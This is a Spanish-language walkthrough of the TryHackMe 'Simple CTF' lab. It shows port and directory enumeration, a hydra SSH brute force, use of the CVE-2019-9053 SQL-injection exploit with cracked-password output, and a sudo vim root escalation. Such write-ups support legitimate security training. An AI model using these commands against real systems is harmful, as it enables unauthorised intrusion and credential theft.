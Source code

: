# Resolución de la Máquina: Simple CTF

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 23/06/2025
- **Sistema Operativo:** Linux


## Descripción

Simple CTF es una máquina de nivel fácil alojada en TryHackMe, orientada a usuarios que están comenzando en el mundo del hacking ético y la resolución de CTFs en entornos Linux. A través de su estructura lineal y directa, permite practicar conceptos esenciales de enumeración, explotación básica y escalada de privilegios.

Durante el proceso de resolución, el atacante debe identificar servicios expuestos mediante técnicas de reconocimiento, acceder al sistema aprovechando credenciales débiles o mal protegidas, y finalmente encontrar una ruta sencilla para escalar privilegios y obtener el control total del sistema.

Esta máquina es útil para practicar:

> Enumeración de puertos y servicios con herramientas como nmap

> Fuerza bruta o uso de credenciales simples para acceso inicial

> Revisión de archivos del sistema en busca de información sensible

> Técnicas básicas de escalada de privilegios en sistemas Linux, como el uso de binarios con permisos SUID o mal uso de sudo


## Enumeración

### Escaneo con Nmap

```bash
└─$ nmap --open -T5 -sS -sV -n -Pn 10.10.196.20
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-23 15:36 CEST
Nmap scan report for 10.10.196.20
Host is up (0.043s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.85 seconds
```
### Escaneo con gobuster
```bash
└─$ gobuster dir -u http://10.10.196.20 -w /usr/share/wordlists/wfuzz/general/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.196.20
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.196.20/simple/]
Progress: 952 / 953 (99.90%)
===============================================================
Finished
===============================================================
```
## Intrusión
Podemos conectarnos al FTP como usuario anonymous y en modo passive, encontraremos el sigueinte txt.
```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```
Si seguimos buscando por la web veremos que se ha colgado una noticia por el usuario mitch, por lo tanto probaremos a realizar un ataque de fuerza bruta contra este usuario:
```bash
└─$ hydra -V -t 4 -l mitch -P /usr/share/wordlists/rockyou.txt  ssh://10.10.127.116:2222
[2222][ssh] host: 10.10.127.116   login: mitch   password: secret
```
Obtendremos las credenciales con las que accederemos por ssh y con las que podremos acceder al panel de admin de la wev,

No obstante, el sitio web también presenta la siguiente vulnerabilidad: CVE-2019-9053, por lo que descargaremos el exploit desde exploit-db (este vulnera mediante sqli).
Veremos que hemos de retocar la sintaxis de la función print añadiendo parentesis para su correcta interpretación en python3
```bash
┌──(yeray㉿kali)-[~/THM/SimpleCTF]
└─$ sudo python2 46635.py -u http://10.10.118.69/simple --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret                                                                                                                                                                                    
```
Necesitaremos instalar la dependencia de termcolor para su correcta ejecución.

## Escalada de privilegios
Nos conectaremos por ssh a través del puerto 2222 con las credenciales obtenidas e intriduciremos el siguiente comando para generar una shell interactiva
```bash
┌──(yeray㉿kali)-[~/THM/SimpleCTF]
└─$ ssh mitch@10.10.118.69 -p 2222  
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
mitch@Machine:~$
```
Veremos que podemos escalar privilegios gracias al permiso de sudo que tenemos sobre vim, si buscamos en GTFOBins veremos como podemos escalar privilegios.
```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:~$ sudo vim -c ':!/bin/sh'

# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Machine:~# whoami
root

```
